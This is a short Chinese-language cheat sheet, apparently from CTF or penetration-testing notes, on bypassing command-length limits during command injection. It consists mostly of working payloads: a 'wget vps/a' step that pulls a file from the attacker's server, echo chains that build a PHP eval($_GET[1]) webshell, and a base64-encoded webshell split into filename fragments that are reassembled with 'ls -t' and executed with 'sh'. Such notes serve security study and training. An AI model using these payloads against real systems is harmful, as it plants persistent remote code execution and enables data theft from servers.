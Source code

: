 #### 利用

```php
1.写入webshell
2.敏感数据外带
```

### 命令长度限制

#### 思路

```php
wget 远程下载
echo + >写入文件
mv 重命名
w>d\\ 写文件名后再通过 ls -t>0将文件名全部按时间顺序写入到0中 然后sh 0执行脚本
```

#### 限制长度 15

1. 通过`wget vps/a` 获取文件之后`mv a xx`

2. 通过echo写入shell

   ```php
   echo \<?php>1
   echo eval\(>>1
   echo \$_GET>>1
   echo \[1\]>>1
   echo \)\;>>1
   ```

#### 限制长度 7

```php
介绍一下用到的命令:
w>a
向目录中写入一些数据并生成a文件
ls -t
按照时间顺序排列当前文件名
sh
用/bin/bash 执行文件中的命令集合
```

**这里的思路就是将**payload分隔成一条条的命令，然后利用 w> 生成文件名为payload的文件集合，利用ls写到一个文件中，再用sh执行分割的命令， 同时为了防止shell中的特殊字符影响，采用base64编码。

```php
echo PD9waHAgZXZhbCgkX0dFVFsxXSk7\|base64 -d\>1.php
```

```php
m>hp
m>1.p\\
m>d\>\\
m>\ -\\
m>e64\\
m>bas\\
m>7\|\\
m>XSk\\
m>Fsx\\
m>dFV\\
m>kX0\\
m>bCg\\
m>XZh\\
m>AgZ\\
m>waH\\
m>PD9\\
m>o\ \\
```